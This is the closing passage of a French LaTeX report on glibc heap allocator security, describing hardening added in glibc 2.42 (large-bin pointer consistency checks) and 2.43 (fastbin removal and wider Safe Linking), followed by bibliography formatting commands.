L'adoption des protections introduites dans les versions \texttt{2.42} et \texttt{2.43} de la \texttt{glibc} est liée au cycle de mise à jour des distributions Linux. La GLIBC n'est que rarement mise à jour de manière isolée, son déploiement suivant généralement le passage à une nouvelle version majeure du système d'exploitation.

Actuellement, ces versions "Bleeding Edge" sont principalement disponibles sur les distributions de type \textit{rolling release} (Arch Linux) ou les versions de développement (Debian Sid, Fedora Rawhide, Ubuntu 26.04). L'analyse de ces mécanismes impose souvent l'usage d'environnements conteneurisés ou de machines virtuelles, car les parcs serveurs en production (LTS) conservent des versions plus anciennes pour garantir la stabilité.
\subsection*{GLIBC 2.42 : Durcissement (Août 2025)}
La version 2.42 impose que des pointeurs \texttt{fd\_nextsize} et \texttt{bk\_nextsize} soient cohérents dans les deux sens, lors de l'insertion dans l'\textit{Unsorted Bin} et les \textit{Largebins} :
\[ P\rightarrow\texttt{fd\_nextsize}\rightarrow\texttt{bk\_nextsize} == P \]
Toute asymétrie déclenche une erreur, bloquant l'écriture arbitraire des \textit{Large Bin Attacks}.

\subsection*{GLIBC 2.43 : Refonte et suppression des Fastbins (Janvier 2026)}
La version 2.43 supprime la structure \texttt{fastbin}. Les petites allocations sont désormais gérées par le \textit{Tcache} et les \textit{Smallbins}. De plus, le \textit{Safe Linking} ($P \oplus (L \gg 12)$) s'applique désormais à l'ensemble des listes chaînées simples de l'allocateur.

\section{Bibliographie}

\nocite{*}

\defbibenvironment{bibliography}
  {\list
     {}
     {\setlength{\leftmargin}{\bibhang}%
      \setlength{\itemindent}{-\leftmargin}%
      \setlength{\itemsep}{\bibitemsep}%
      \setlength{\parsep}{\bibparsep}}}
  {\endlist}
  {\item}

\printbibliography[keyword=video, heading=subbibliography, title={Vidéos}]
\printbibliography[keyword=git, heading=subbibliography, title={Dépôts Git / Ressources techniques}]
\printbibliography[keyword=web, heading=subbibliography, title={Sites Web / Articles en ligne}]
\printbibliography[keyword=thesis, heading=subbibliography, title={Mémoires universitaires}]



\end{document}